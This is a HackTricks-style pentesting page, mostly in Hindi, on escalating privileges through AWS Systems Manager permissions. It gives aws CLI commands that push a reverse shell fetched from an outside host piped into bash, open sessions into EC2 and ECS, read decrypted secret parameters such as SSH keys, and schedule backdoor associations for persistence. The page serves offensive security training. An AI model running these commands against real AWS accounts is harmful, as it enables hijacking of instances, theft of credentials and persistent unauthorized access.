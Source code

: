 # AWS - SSM Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## SSM

SSM के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
../../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/
{{#endref}}

### `ssm:SendCommand`

एक हमलावर जिसके पास अनुमति **`ssm:SendCommand`** हो, Amazon SSM Agent चला रहे इंस्टेंस में **कमांड निष्पादित कर सकता है** और उसके अंदर चल रहे **IAM Role को समझौता कर सकता है**.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
यदि आप इस तकनीक का उपयोग पहले से compromised EC2 instance के अंदर privileges escalate करने के लिए कर रहे हैं, तो आप बस स्थानीय रूप से rev shell को capture कर सकते हैं:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Potential Impact:** EC2 IAM roles जो SSM Agents चलाने वाले इंस्टेंस से जुड़े हैं, उन पर प्रत्यक्ष privesc।

### `ssm:StartSession`

जिसके पास अनुमति **`ssm:StartSession`** है, एक attacker Amazon SSM Agent चलाने वाले इंस्टेंस में **SSH जैसी session शुरू कर सकता है** और उसके अंदर चल रहे **IAM Role** को compromise कर सकता है।
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
> [!CAUTION]
> सेशन शुरू करने के लिए आपके पास **SessionManagerPlugin** इंस्टॉल होना चाहिए: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)

**Potential Impact:** EC2 IAM roles पर सीधे privesc जो उन running instances से जुड़ी हों जिन पर SSM Agents चल रहे हों।

#### Privesc to ECS

जब **ECS tasks** **`ExecuteCommand` enabled** के साथ चलती हैं, पर्याप्त अनुमतियों वाले उपयोगकर्ता `ecs execute-command` का उपयोग करके container के अंदर **कमांड चलाना** कर सकते हैं.\
[**the documentation**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) के अनुसार यह उस डिवाइस और लक्ष्य container के बीच SSM Session Manager के साथ एक सुरक्षित चैनल बनाकर किया जाता है जिसका उपयोग आप “_exec_“ कमांड आरंभ करने के लिए करते हैं। (SSM Session Manager Plugin necesary for this to work)\
इसलिए, जिन उपयोगकर्ताओं के पास `ssm:StartSession` है, वे उस विकल्प सक्षम होने पर बस निम्नलिखित चलाकर **ECS tasks के अंदर एक shell प्राप्त कर पाएँगे**:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../images/image (185).png>)

**संभावित प्रभाव:** Direct privesc to the `ECS`IAM roles attached to running tasks with `ExecuteCommand` enabled.

### `ssm:ResumeSession`

जिस attacker के पास permission **`ssm:ResumeSession`** है, वह re-**start a SSH like session in instances** running the Amazon SSM Agent with a **disconnected** SSM session state और **compromise the IAM Role** जो इसके अंदर चल रहा है, कर सकता है।
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potential Impact:** Direct privesc उन EC2 IAM roles पर जो running instances से जुड़े हैं और जिन पर SSM Agents चल रहे हों और disconnected sessions मौजूद हों।

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

उल्लिखित अनुमतियाँ रखने वाला attacker सक्षम होगा **SSM parameters** को सूचीबद्ध करने के लिए और **उन्हें clear-text में पढ़ने** के लिए। इन parameters में अक्सर आप संवेदनशील जानकारी पा सकते हैं, जैसे SSH keys या API keys।
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**संभावित प्रभाव:** पैरामीटरों के अंदर संवेदनशील जानकारी मिल सकती है।

### `ssm:ListCommands`

इस अनुमति के साथ एक attacker भेजे गए सभी **commands** की सूची देख सकता है और संभवतः उन पर **संवेदनशील जानकारी** पा सकता है।
```
aws ssm list-commands
```
**संभावित प्रभाव:** कमांड लाइनों के भीतर संवेदनशील जानकारी मिल सकती है।

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

इन अनुमतियों वाला हमलावर भेजे गए सभी **commands** को सूचीबद्ध कर सकता है और उत्पन्न होने वाले **read the output** को पढ़ सकता है, जिससे उम्मीद है कि उसे उसमें **sensitive information** मिल जाएगी।
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**संभावित प्रभाव:** कमांड आउटपुट में संवेदनशील जानकारी का पता चल सकता है।

### ssm:CreateAssociation का उपयोग

परमिशन **`ssm:CreateAssociation`** रखने वाला एक हमलावर State Manager Association बना सकता है जो SSM द्वारा प्रबंधित EC2 instances पर कमांड्स स्वचालित रूप से निष्पादित करता है। इन associations को एक निश्चित अंतराल पर चलने के लिए कॉन्फ़िगर किया जा सकता है, जो इन्हें interactive sessions के बिना backdoor-like persistence के लिए उपयुक्त बनाता है।
```bash
aws ssm create-association \
--name SSM-Document-Name \
--targets Key=InstanceIds,Values=target-instance-id \
--parameters commands=["malicious-command"] \
--schedule-expression "rate(30 minutes)" \
--association-name association-name
```
> [!NOTE]
> यह persistence method तब तक काम करता है जब तक EC2 instance Systems Manager द्वारा managed है, SSM agent चल रहा है, और attacker के पास associations बनाने की permission है। इसमें interactive sessions या explicit ssm:SendCommand permissions की आवश्यकता नहीं है। **महत्वपूर्ण:** `--schedule-expression` parameter (उदा., `rate(30 minutes)`) को AWS के न्यूनतम अंतराल 30 मिनट का पालन करना होगा। तत्काल या एक बार के execution के लिए, `--schedule-expression` को पूरी तरह हटा दें — association बनते ही एक बार execute होगा।

### Codebuild

आप SSM का उपयोग करके बन रहे codebuild project के अंदर भी पहुँच सकते हैं:

{{#ref}}
../aws-codebuild-privesc/README.md
{{#endref}}

{{#include ../../../../banners/hacktricks-training.md}}
